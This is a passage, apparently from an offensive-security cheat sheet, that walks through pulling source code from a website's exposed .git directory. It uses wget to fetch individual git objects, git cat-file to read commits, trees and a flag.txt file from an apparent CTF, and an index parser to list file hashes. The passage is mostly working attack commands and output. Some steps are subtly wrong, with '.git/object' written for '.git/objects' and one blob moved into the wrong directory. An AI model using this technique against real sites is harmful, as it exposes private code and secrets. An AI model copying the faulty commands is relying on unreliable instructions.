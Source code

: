 
    # download the file
    wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

    # first byte for subdirectory, remaining bytes for filename
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

    # display the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
    ```powershell
    wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```
5. Read the data (flag.txt)
    ```powershell
    wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

#### Recovering file contents from .git/index

Use the git index file parser https://pypi.python.org/pypi/gin (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.

```powershell
$ gin .git/index | egrep -e "name|sha1" 
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```
 